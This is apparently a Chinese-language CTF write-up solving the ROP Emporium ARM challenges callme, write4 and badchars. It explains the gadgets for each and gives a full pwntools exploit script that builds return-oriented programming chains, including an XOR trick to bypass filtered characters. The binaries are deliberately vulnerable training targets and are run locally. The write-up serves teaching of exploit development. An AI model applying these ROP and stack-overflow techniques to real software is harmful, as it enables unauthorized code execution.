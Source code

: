 # <font face=汉仪唐美人>3. callme</font>
<font face=汉仪唐美人>本题有多个文件，根据题意来看是需要依次调用``callme_one``、``callme_two``、``callme_three``这3个库函数。这三个函数会进行flag的解密，但是需要满足前三个参数等于特定值。这就需要我们去elf文件中寻找合适的gadget了。</font>

![](https://img-blog.csdnimg.cn/f794d1d4548f4bbabf06a989ec5a3896.png)

<font face=汉仪唐美人>而本题正好给出了一个不能再合适的gadget，因为本题的考点就在这里：</font>

![](https://img-blog.csdnimg.cn/2eba76ed63c542939bb5c78f86863d56.png)

<font face=汉仪唐美人>因此思路就很简单了，直接重复调用这个gadget修改前3个寄存器的值，再分别调用三个callme函数即可。</font>

<font face=汉仪唐美人>这里需要注意的是，elf文件中虽然给出了一个可以调用3个库函数的函数，能够填充got表，但由于ROP只能写入已知地址，如果写入的是got表的地址，那么程序就会将got表地址当做指令地址来执行，这显然是不对的，少了一层解引用。因此我们需要使用plt表进行利用。和x86架构下的利用相同，如果要使用plt表进行利用，需要注意返回地址的设置。<font color=red>如果plt地址卸载栈上地址值为a的地方，ROP到此，返回地址应该为a-8，且返回后SP指向a+8处</font>。因此，我们需要在``callme_one``函数的plt地址前面写下一个ROP导向地址。</font>

<font face=汉仪唐美人>因此我们可以直接在这里写``useful_gadget``的地址，在``callme_one``后面直接写三个参数，然后再调用下一个库函数，以此类推。</font>

<font face=汉仪唐美人>exp：</font>
```python
from pwn import *
context.arch='arm'
context.log_level='debug'
elf = ELF('./callme_armv5')

# io = process(['qemu-arm-static', '-L', '/usr/arm-linux-gnueabi', '-g', '9999', './callme_armv5'])
io = process(['qemu-arm-static', '-L', '/usr/arm-linux-gnueabi', './callme_armv5'])

useful_gadget = 0x10870
pop_out = 0x108dc

payload = cyclic(0x24)
payload += p32(useful_gadget)
payload += p32(0xdeadbeef) + p32(0xcafebabe) + p32(0xd00df00d)
payload += p32(useful_gadget) + p32(elf.plt['callme_one'])
payload += p32(0xdeadbeef) + p32(0xcafebabe) + p32(0xd00df00d)
payload += p32(useful_gadget) + p32(elf.plt['callme_two'])
payload += p32(0xdeadbeef) + p32(0xcafebabe) + p32(0xd00df00d)
payload += p32(pop_out) + p32(elf.plt['callme_three'])

io.sendlineafter(b'> ', payload)
io.interactive()
```

![](https://img-blog.csdnimg.cn/49ca344a36e745089c4ee59d2a51d6c9.png)

# <font face=汉仪唐美人>4. write4</font>
<font face=汉仪唐美人>本题的pwnme和print_file函数都写在了库函数中，但观察elf文件可以发现有两个gadget：</font>

![](https://img-blog.csdnimg.cn/af54c37e7cb64d6c8d89abb02b614809.png)

<font face=汉仪唐美人>其中第一个为任一地址写指令，第二个可以用作ROP的gadget。考虑到print_file函数需要传入一个字符串参数作为打开的文件，我们需要将flag.txt写到一个特定的地方，然后使用第二个gadget即可传参。</font>

![](https://img-blog.csdnimg.cn/8d2afe1c39484468ae0d98b38de0b8ff.png)

<font face=汉仪唐美人>和x86的本题不同，这里的bss段太小，无法写入，因此尝试写入到data段。</font>

![](https://img-blog.csdnimg.cn/b6727b5af7594cc2bb8da256d8ebcadb.png)

<font face=汉仪唐美人>exp：</font>
```python
from pwn import *
context.arch='arm'
context.log_level='debug'
elf = ELF('./write4_armv5')

io = process(['qemu-arm-static', '-L', '/usr/arm-linux-gnueabi', './write4_armv5'])

write_addr = 0x21024
write_gadget = 0x105ec
pop_r0pc = 0x105f4
pop_r3r4pc = 0x105f0

payload = cyclic(0x24)
payload += p32(pop_r3r4pc) + b'flag' + p32(write_addr)
payload += p32(write_gadget) + b'.txt' + p32(write_addr + 4);
payload += p32(write_gadget) + p32(0) * 2
payload += p32(pop_r0pc) + p32(write_addr) + p32(elf.plt['print_file'])

io.sendlineafter(b'> ', payload)

io.interactive()
```

![](https://img-blog.csdnimg.cn/d65b16df2426438cac5d0091f66d4cc7.png)

# <font face=汉仪唐美人>5. badchars</font>
<font face=汉仪唐美人>本题的pwnme中栈溢出过滤了4个字符：x、g、a、.，因此需要利用elf中的gadget。我们看一下都有什么gadget。</font>

![](https://img-blog.csdnimg.cn/3396d40910794657b163d7afe0983a96.png)

<font face=汉仪唐美人>第一段gadget：[R5]=[R5]-R6; 赋值R0</font>
<font face=汉仪唐美人>第二段gadget：[R5]=[R5]+R6; 赋值R0</font>
<font face=汉仪唐美人>第三段gadget：[R4]=R3; 赋值R5和R6</font>
<font face=汉仪唐美人>第四段gadget：[R5]=[R5]^R6; 赋值R0</font>

<font face=汉仪唐美人>看到了异或操作，我们可以利用这个异或操作在数据区构造出来关键字符。这里的加法、减法和异或操作实际上只需要一个就可以了。我们将字符串写在和上一道题相同的位置。</font>

```python
from pwn import *
context.arch='arm'
context.log_level='debug'
elf = ELF('./badchars_armv5')

io = process(['qemu-arm-static', '-L', '/usr/arm-linux-gnueabi', './badchars_armv5'])

gadgets = [0x105f0, 0x10600, 0x10610, 0x10618]
write_addr = 0x21024

payload = p32(write_addr + 12) * (0x2c // 4)	# 这里要写一个有效地址，不然STR R3, [R4]会报错
payload += p32(gadgets[2]) + p32(write_addr) + b'fl' + p8(ord('a') ^ 0xFF) + p8(ord('g') ^ 0xFF)
payload += p32(gadgets[1]) + p32(0)
payload += p32(gadgets[2]) + p32(write_addr) + p32(0xFFFF0000)
payload += p32(gadgets[3]) + p32(0)
payload += p32(gadgets[2]) + p32(write_addr + 4) + p8(ord('.') ^ 0xFF) + b't' + p8(ord('x') ^ 0xFF) + b't'
payload += p32(gadgets[3]) + p32(0)
payload += p32(gadgets[2]) + p32(write_addr + 4) + p32(0xFF00FF)
payload += p32(gadgets[3]) + p32(write_addr)
payload += p32(elf.plt['print_file'])

io.sendlineafter(b'> ', payload)

io.interactive()
```

![](https://img-blog.csdnimg.cn/aa202fbd09d9472fb65bbfc4893ffb58.png)

